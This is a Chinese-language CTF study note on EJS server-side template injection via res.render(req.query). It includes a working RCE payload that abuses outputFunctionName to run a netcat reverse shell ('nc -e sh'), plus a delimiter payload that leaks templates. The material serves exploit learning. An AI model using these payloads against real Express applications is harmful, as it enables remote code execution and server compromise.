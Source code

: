 alias:: EJS

- # EJS
	- [[CTF/SSTI/EJS]]
	- 原型链污染
		- [[CTF/WP/CTFShow/web341]]
- # render函数传递参数导致的问题
  id:: 64d7a180-ce15-46d7-b3c5-9ae47612b34e
	- 参考
		- https://eslam.io/posts/ejs-server-side-template-injection-rce/
			- 虽然文章说只对旧版有效，但是不知道为什么``ejs@3.1.9``仍然可以使用这个漏洞实现模板泄漏
		- https://www.npmjs.com/package/ejs
			- 其中有delimiter等options的定义
	- 原理
		- 如果有形似`res.render('views/page.ejs', req.query);`的渲染方法，我们可以通过在req.query中传递恶意参数来控制ejs的渲染结果，实现RCE
		- `ejs.renderFile`会在`data`对象中看到我们的query, 然后其会根据`data.settings['view options']`拿出viewOpt合并到渲染选项中，所以我们提供viewOpt即可自定义渲染选项
	- 注意
		- 第一个参数为文件名时，express会控制ejs缓存渲染结果，所以需要在文件产生后立马发送payload，不能在访问路径，已经渲染了模板之后再发送payload
	- payload
		- RCE
			- 新版ejs会使用正则`/^[a-zA-Z_$][0-9a-zA-Z_$]*$/`检查`outputFunctionName`是否合法，不能使用这个payload
			- ```text
			  settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('nc -e sh 127.0.0.1 1337');s
			  ```
		- 查看模板
			- ```text
			  settings[view+options][delimiter]=nope114514
			  ```